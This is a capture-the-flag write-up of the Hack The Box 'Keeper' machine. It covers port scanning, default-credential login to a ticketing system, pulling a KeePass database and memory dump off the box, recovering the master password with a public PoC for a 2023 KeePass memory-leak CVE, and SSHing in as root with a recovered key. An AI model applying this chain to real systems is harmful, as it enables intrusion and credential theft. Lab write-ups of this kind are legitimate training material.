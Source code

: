 ```yaml
---
Title: Keeper HTB
Rating: Easy
OS: Linux
---
```

# Keeper HTB

We'll start with a basic nmap scan across all ports:
```bash

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The base web page has this link, the URL is redirecting to:
`http://tickets.keeper.htb/rt/`
[Keeper Web Page](Images/Keeper_HTB/Screenshot_2025-01-31_01-06-23.png)

I'll dump the domain name into the `/etc/hosts` file:
`110.10.11.227    tickets.keeper.htb keeper.htb`

![Keeper Ticket Page](Images/Keeper_HTB/Screenshot_2025-01-31_01-12-34.png)

We can sign in using the default credentials of `root` and `password`
Checking through the tickets, there's one open about a KeePass issue on the users Windows box

![Open_Ticket](Images/Keeper_HTB/Open_Tickets.png)

Some further poking around, we can see that the user Inorgaard has their user password in the profile:

![Inorgaard user](Images/Keeper_HTB/Inorgaard.png)

Once we're on this box, we'll grab two files that were alluded to in the ticket:
```bash
lnorgaard@keeper:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.37 - - [31/Jan/2025 08:31:03] "GET /passcodes.kdbx HTTP/1.1" 200 -
10.10.14.37 - - [31/Jan/2025 08:31:08] "GET /passcodes.kdbx HTTP/1.1" 200 -
10.10.14.37 - - [31/Jan/2025 08:31:26] "GET /KeePassDumpFull.dmp HTTP/1.1" 200 -
```

A quick google on KeePass memory leak shows a common CVE from back in 2023.
I'll grab this Python3 PoC designed for the CVE and run it against the crash file we received:
https://github.com/z-jxy/keepass_dump

```bash
└─$ python3 keepass_dump.py -f KeePassDumpFull.dmp --recover --debug -o out.txt
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
---snip---
[*] 10000000 bytes since last found. Ending scan.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde
[?] Recovering...
[-] Couldn't verify plaintext match in dump for: dgrd med flde
[*] Saved 1 combinations to out.txt
``` 

The string doesn't make much sence, but I'll copy it into Google to see other common references.
We get a close match to a Danish red berry pudding (I'm assuming our compromised RT name is also Danish).
`Rødgrød med fløde` 

I'll use this as the Master Password to access the passcode database that we copied before and get access.

Under the Network folder, we have an entry for `keeper.htb (Ticketing Server)` that has an SSH RSA key in the comments.
I'll save this to a file on my machine, and use that along with the password to try get a root session to the box

Before we can do this, we'll need to convert the key from the PuttyGen format to OpenSSH:
`puttygen puttyKey.ppk -O private-openssh -o privKey` 

Now we can use it to establish our connection:

```bash
└─$ ssh -i privKey root@10.10.11.227 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami
root
root@keeper:~# cat /root/root.txtbash
```

